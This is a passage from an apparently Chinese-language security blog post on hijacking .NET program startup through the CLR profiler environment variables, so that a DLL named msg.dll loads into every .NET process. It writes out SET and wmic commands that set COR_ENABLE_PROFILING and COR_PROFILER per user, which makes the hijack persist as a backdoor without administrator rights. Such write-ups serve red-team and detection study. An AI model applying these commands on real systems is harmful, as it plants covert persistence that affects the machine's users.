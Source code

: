 操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/2-3.png)

**注:**

使用其他cmd执行powershell.exe不会加载msg.dll

**原因：**

```
SET COR_ENABLE_PROFILING=1
SET COR_PROFILER={11111111-1111-1111-1111-111111111111}
```

只作用于当前cmd，可通过cmd命令`"set"`判断


当然，执行其他.net程序也会加载msg.dll

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/2-4.png)


## 0x03 后门开发思路
---

由以上测试得出结论，使用CLR能够劫持所有.Net程序的启动，但是只能作用于当前cmd

能否作用于全局呢？

自然想到了修改环境变量

通常，修改环境变量使用面板操作的方式，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/3-1.png)

能否通过命令行修改环境变量呢？

自然想到了WMI

修改系统变量（需要管理员权限）：

`wmic ENVIRONMENT create name="1",username="<system>",VariableValue="1"`

修改当前用户变量（当前用户权限）：

`wmic ENVIRONMENT create name="2",username="%username%",VariableValue="2"`

**注：**

通过WMI修改环境变量需要系统重启或注销重新登录才能生效


接下来需要测试，是否只需要修改当前用户权限就能够实现作用于全局，答案是肯定的。

添加当前用户的环境变量：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"

wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```
